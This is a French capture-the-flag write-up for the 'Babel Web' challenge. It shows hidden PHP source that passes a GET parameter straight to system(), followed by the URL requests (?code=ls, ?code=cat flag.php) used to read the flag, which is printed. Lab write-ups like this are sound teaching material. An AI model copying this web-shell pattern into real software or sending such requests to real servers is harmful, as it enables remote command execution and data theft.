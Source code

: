 # Analyse
J'ai commencé par faire une analyse de la page web.

Je remarque ici qu'il y a une balise href en commentaire :
```html
<head>
	<title>Bienvenue à Babel Web!</title>
</head>
<body>
	<h1>Bienvenue à Babel Web!</h1>
	La page est en cours de développement, merci de revenir plus tard.
	<!-- <a href="?source=1">source</a> -->
</body>
```

# Solution
J'ai donc enlevé les commentaires afin de me rendre sur le lien. Une fois sur la nouvelle page, du PHP apparaît :
```html
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>    
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
<?php
    }
?>
```
Dans le code PHP, je remarque ce code la : ***($_GET['code'])*** permet d'exécuter des commandes système directement en passant des valeurs via la variable.

En accédant à cette URL : http://localhost:8000/?code=ls, on obtient deux fichiers : flag.php et index.php.

Je vais aller chercher le flag dans le fichier via la commande :

http://localhost:8000/?code=cat%20flag.php

Ici, une page blanche s'affiche et si l'on regarde dans le code source, alors on trouve le flag :
```html
<pre>
  <!--?php
	$flag = "FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}";
  <pre-->
</pre>
```